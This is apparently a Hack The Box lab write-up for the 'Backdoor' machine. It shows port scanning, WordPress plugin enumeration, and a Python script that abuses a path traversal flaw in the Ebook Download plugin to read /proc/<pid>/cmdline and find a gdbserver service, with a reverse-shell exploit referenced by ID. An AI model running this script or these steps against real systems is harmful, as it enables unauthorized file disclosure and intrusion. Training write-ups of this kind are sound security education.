 ![Header](screenshots/header.png)

## Enumeration

The IP is 10.10.11.125, I will add it to /etc/hosts:

![/etc/hosts/ picture](screenshots/etc-hosts.png)

Let's start off by enumerating the open ports:

```bash
$ nmap -p- --open -sS -v -n -Pn backdoor.htb -oG allPorts

# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.125 ()   Status: Up
Host: 10.10.11.125 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1337/open/tcp//waste///   Ignored State: closed (65532)
```
  
It returns ports 22, 80 and 1337 as being open. 
  
I will run a nmap script to list the services and their versions that are running on each open port
  
```bash
$ nmap -p22,80,1337 -sCV backdoor.htb -oN targeted

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If you try to access via browser you will get an innocent website, where you can't do much.

Let's try to list subdirectories using wfuzz:

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -u "backdoor.htb/FUZZ" --hc=404 -c

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000238:   301        9 L      28 W       317 Ch      "wp-content"
000000765:   301        9 L      28 W       318 Ch      "wp-includes"
000006941:   301        9 L      28 W       315 Ch      "wp-admin"
```

The subdirectory _wp-content_ is not visible to us, _wp-includes_ contains the plugins and themes, although we can't see the contents of the files.
Playing around with _wp-admin_ there doesn't seem to be any default credentials set.

So, knowing that we are dealing with Wordpress as the CMS, we can try running wpscan to list vulnerable plugins.
You will need an API token, which you can get [here](wpscan.com).

```bash
$ wpscan --url http://backdoor.htb/ --enumerate vp --plugins-detection aggressive --api-token <token>

[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
```

## Foothold

We can see that there is a vulnerable plugin called Ebook Download. If we search for it on searchsploit, we fill find file with **id 39575**.
I will download it on my computer using:

`$ searchsploit -m 39575`

If we open the text file, we can see that the plugin is vulnerable to Path Traversal and Local File Inclusion.
We can list running processes using the path /proc/_pid_/cmdline, where pid is a valid process ID.
Using a Python script to iterate through the PIDs, we can find which are running.

```python
#!/bin/python3

import signal
import requests
import sys

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Stopping the process...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"
empty_resp = 125

p1 = log.progress("Brute force")
p1.status("Starting brute force attack")

for pid in range(0,5000):
    p1.status("Testing pid %d" % (pid))
    content = (requests.get(main_url + str(pid) + "/cmdline")).content
    if (len(content) > empty_resp):
        print(f"[+] Process {pid} found")
        print(content)
        print("--------------------------------------------\n")
```

We see that there's a service called gdbserver running on the open port 1337:
  
```bash
[+] Process 850 found
b'/proc/850/cmdline/proc/850/cmdline/proc/850/cmdline/bin/sh\x00-c\x00while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;";done\x00<script>window.close()</script>'
```
  
If we look for it on searchsploit we will find a vulnerability with **id 50539**.
If we run it and follow the instructions provided, we can get a reverse shell as user and view the flag.

![whoami output](screenshots/foothold.png)
